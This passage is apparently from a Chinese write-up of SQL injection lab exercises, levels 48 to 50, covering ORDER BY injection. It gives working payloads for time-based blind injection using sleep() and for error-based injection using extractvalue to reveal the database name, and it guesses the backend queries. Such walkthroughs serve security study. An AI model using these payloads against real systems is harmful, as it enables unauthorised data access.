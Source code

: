 



猜测后端sql语句：

```
select * from users order by 前端数据;
```





#### 49.	

> order by 注入

> 此题和48题较为类似。但是很奇怪此题无论`sort`参数传入什么值，都只会默认排序。



但是此题因为有`'`单引号包裹，所以貌似不能用`rand`来解决，所以只能通过时间盲注



payload:

```
?sort=1' and if(length(database())>1,sleep(0.1),1)%32
```

> 此处`sleep()`函数中每增加一秒，实际时间增加30秒。

此题如果想用`or`的话，前面就不能传数据

例如：

```
?sort=' or if(length(database())>1,sleep(0.1),1)%23
```



猜测后端sql语句：

```
select * from users order by '前端数据';
```





#### 50.

> order by注入

>  此题不知道用意在哪。很简单

因为mysql报错信息会回显，所以可以直接用报错注入来猜解表名。又可以用堆叠注入来插入数据。



payload:

> 爆库名

```
?sort=1 and extractvalue(1,concat(0x7e,(select database())))%23
```
